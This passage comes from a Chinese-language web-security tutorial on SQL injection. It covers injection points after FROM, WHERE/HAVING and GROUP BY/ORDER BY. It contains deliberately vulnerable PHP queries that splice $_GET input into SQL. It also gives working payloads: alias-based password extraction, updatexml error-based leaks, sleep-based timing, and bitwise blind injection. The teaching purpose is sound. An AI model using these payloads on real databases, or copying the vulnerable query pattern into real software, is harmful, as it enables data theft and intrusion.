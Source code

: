 上文的 SQL 查询语句改为：`$res = mysqli_query($conn, "SELECT title FROM ${_GET['table']}");`

仍然可以利用别名的方式直接取出数据

```
select title from (select pwd AS title from wp_user)x
```

{{< admonition>}}

在不知表名的情况下，可以先从 information_schema.tables 中查询表名。

在 select_expr 和 table_reference 的注入，如果注入的点有反引号包裹，那么需要先闭合反引号。

{{< /admonition >}}

#### 12.1.3 注入点在 WHERE 或 HAVING 后

SQL 语句：`$res = mysqli_query($conn, "SELECT title FROM wp_news WHERE id=${_GET[id]}")`

实战中最常遇到的情况，要先判断有无引号包裹，再闭合前面可能存在的括号，即可进行注入来获取数据。注入点在 HAVING 后的情况与之相似。

#### 12.1.4 注入点在 GROUP BY 或 ORDER BY 后

##### 12.1.4.1 利用报错

```sql
select * from wp_user_ order by 1|updatexml(1,concat(0x7e,database(),0x7e),0)
```

1105 - XPATH syntax error: ‘~sectest~’, Time: 0.000000s

##### 12.1.4.2 利用延时

```php
$res = mysqli_query($conn, "SELECT title FROM wp_news GROUP BY ${_GET['title']}");
```

经过测试可以发现，`?title=id desc,(if(1，sleep(1),1))` 会让页面迟 1 秒，于是可以利用时间注入获取相关数据。

{{< admonition>}}

该方法只能用在 mysql 5 上，mysql 8 上失效

{{< /admonition >}}

##### 12.1.4.3 利用 & | ^ 位运算符进行 order by

```sql
--布尔型盲注
select * from wp_user_ order by id|(if(1,2,1))

--id 和 if 返回的结果进行按位与进行 order by 根据时间判断

select * from wp_user_ order by 1|if(database() regexp "sectest",sleep(1),0)
```

##### 12.1.4.4 利用括号闭合进行联合查询

前提是前句查询必须带有括号。
